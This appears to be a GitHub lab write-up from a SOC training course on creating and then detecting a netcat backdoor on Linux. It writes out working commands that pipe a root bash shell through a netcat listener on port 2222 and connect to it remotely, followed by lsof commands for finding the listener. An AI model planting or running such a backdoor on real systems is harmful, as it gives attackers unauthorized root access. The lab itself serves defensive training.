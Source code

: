 # "Linux CLI Malware Detection: Netcat Backdoor

This lab is provided by Antisyphon Training's SOC Core Skills course. We will explore the setup and detection of backdoor malware using a netcat listener, a common tool for establishing unauthorized remote access. The exercise aims to simulate a real-world cyber threat scenario, providing hands-on experience in malware analysis and defense techniques. By leveraging the Linux Command Line Interface (CLI), we will detect and analyze the backdoor. 
<br>

## Create the malware 
- We will first sudo into root so that we can have a backdoor running root.
```
sudo su -
```
<br>
<br>

- This is a simple backdoor mechanism that uses netcat to create a network listener that pipes commands to and from a bash shell, allowing an attacker to remotely execute commands on the system by connecting to port 2222. 
```
mknod backpipe p
/bin/bash  0<backpipe | nc -l 2222 1>backpipe
```
<br>

![backdoor](https://github.com/trixiahorner/Linux_CLI/assets/162903587/d9187608-208a-4da0-99d3-70435d6ef994)
<br>
<br>

- We need the IP of our linux system so that we can connect
```
ifconfig
```
<br>
<br>

- Now let's connect from our windows system! Once connected, we can type some commands to ensure that it is working. As you can see, our Windows computer is connected to the simple Linux backdoor as root. This is the malware. Someone is listening.
```
ncat 172.17.231.122 2222
```
<br>

![netcat](https://github.com/trixiahorner/Linux_CLI/blob/main/images/C2.png?raw=true)
<br>
<br>

## Linux CLI Analysis of malware
- Now we will start our analysis from the Linux CLI. Let's hunt and find our malware. Open up a window for analysis.
```
sudo su -
```
<br>
<br>

- Using lsof we can see a listening device and an established connection
```
lsof -i -P
```
<br>

![netcat](https://github.com/trixiahorner/Linux_CLI/blob/main/images/C3.png?raw=true)
<br>
<br>

- We can look at the netcat process ID using the -p option. This will give us all the open files associated with the listed process ID (the netcat listener)
```
lsof -p 203
```
<br>

![netcat](https://github.com/trixiahorner/Linux_CLI/blob/main/images/C4.png?raw=true)
<br>
<br>



# Conclusion
This lab is crucial for understanding the behavior of backdoor malware and the methodologies used to identify and respond to such threats effectively.
